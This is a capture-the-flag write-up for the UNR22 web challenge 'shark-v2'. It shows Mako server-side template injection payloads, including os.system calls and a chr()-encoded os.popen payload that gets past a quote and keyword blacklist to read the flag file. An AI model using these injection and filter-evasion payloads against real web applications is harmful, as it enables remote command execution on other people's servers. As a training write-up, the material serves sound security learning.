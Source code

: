 ```yaml
---
layout: post
author: hofill
title: shark-v2
slug: shark-v2
ctf: UNR22 Echipe
category: writeup
writeup_categories: ["web"]
tags: ["web", "Mako", "blacklist", "SSTI"]
summary: SSTI using Mako and bypassing blacklist
last_modified_at:
image: https://unr22-individual.cyberedu.ro/images/contests/BMwo9sxqDZaYqNem.png
---
```


# Legend
* [Challenge Description](#descr)
* [Flag Proof](#flagproof)
* [Summary](#summary)
* [Details](#details)

# Challenge Description {#descr}

Shark with a twist.

# Flag Proof {#flagproof}

> CTF{d40de1849fdcdc50b34e23b5acb874aabd8c106c43d837f1d42b12336a51dee0}
>

# Summary {#summary}

SSTI using Mako and bypassing blacklist

# Details {#details}

This challenge had a blacklist. Not only were we not allowed to use certain words, but `<`, `>` and others were being escaped. We had to get creative.

I tried a bunch of things like getting the `pageargs`:

```python
Payload: name=${pageargs}
```

And we got:

```python
Hello {'data': 'world'}!
```

But that didn’t help out much. I then started searching online for some vulnerabilities in Mako. I found this:

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server Side Template Injection/README.md#mako](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#mako)

```python
${self.module.cache.util.os.system("id")}
${self.module.runtime.util.os.system("id")}
...
```

However, I could not use `'` or `"` in my payload, as it got escaped. I remembered that Python has the function `chr`. I used this to my advantage and created the following payload:

![Untitled](/assets/img/sharkv2/Untitled.png)

(%2b is a plus sign, and we are building the words `cat flag` using `chr()`)

```python
${self.module.cache.util.os.popen(chr(99)%2bchr(97)%2bchr(116)%2bchr(32)%2bchr(102)%2bchr(108)%2bchr(97)%2bchr(103)).read()}
```

After sending this, we get the flag:

CTF{d40de1849fdcdc50b34e23b5acb874aabd8c106c43d837f1d42b12336a51dee0}

